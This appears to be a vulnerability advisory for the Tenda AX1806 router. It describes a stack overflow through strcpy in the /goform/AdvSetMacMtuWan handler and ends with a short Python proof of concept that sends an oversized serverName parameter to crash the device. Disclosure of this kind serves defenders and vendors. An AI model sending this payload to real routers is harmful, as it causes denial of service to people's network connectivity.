


Affect device: Tenda Router AX1806 v1.0.0.1(https://www.tenda.com.cn/download/detail-3306.html) 

Vulnerability Type: Stack overflow 

Impact: Denial of Service(DoS) 

# Vulnerability description 
The vulnerability lies in the `/goform/AdvSetMacMtuWan` page which influences the lastest version of Tenda Router AX1806 v1.0.0.1: 

The stack overflow vulnerability is in the in the `strcpy` function in the `sub_65A28` function in the `fromAdvSetMacMtuWan` function


When picture 1 executes the `GetValue("wan.connecttype", v6)` function, the v6 value is 2 and enter the `sub_65A28` function in picture 2 

In picture 2,the v2 variable is obtained directly from the http request parameter `serviceName`ProcinceCode and The v3 variable is obtained directly from the http request parameter `serverName`ProcinceCode.Then they will be  spliced to stack by function  `strcpy` without any security check,which causes stack overflow. 

by POST the page `/goform/AdvSetMacMtuWan` with long Code, the attacker can easily perform a
Denial of Service(DoS). 

# POC
```python
import requests

data = {b"serverName": b'a'*0x800}

res = requests.post("http://10.10.10.1/goform/AdvSetMacMtuWan", data=data)
```